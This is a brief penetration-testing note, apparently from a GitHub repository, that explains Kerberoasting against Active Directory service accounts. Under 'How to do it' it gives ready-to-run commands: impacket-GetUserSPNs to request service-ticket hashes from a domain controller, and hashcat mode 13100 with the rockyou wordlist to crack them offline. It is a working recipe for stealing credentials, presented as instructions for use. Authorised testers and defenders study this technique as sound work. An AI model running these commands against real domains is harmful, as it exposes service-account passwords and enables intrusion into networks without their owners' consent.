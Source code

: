 Kerberoasting takes advantage of Service Accounts. It attacks step 4 of the process below.
![image](https://github.com/user-attachments/assets/1d296fb8-cf21-4b2b-9fa1-05ae2f48b7f4)
* TGT = Ticket-Granting Ticket
* TGS = Ticket-Granting Service
* SPN = Service Principal Name
Anyone with compromised credentials can request a TGT.

TGS is encrypted with the servers account hash. Thus if it is cracked, we get the password to the Service Account.
# How to do it
Get the TGS of the DC:
```bash
sudo impacket-GetUserSPNs -request -dc-ip $(DC_IP) $(DOMAIN)/$(USER)
```
Store the hash in a text file and decrypt the hash:
```bash
sudo hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
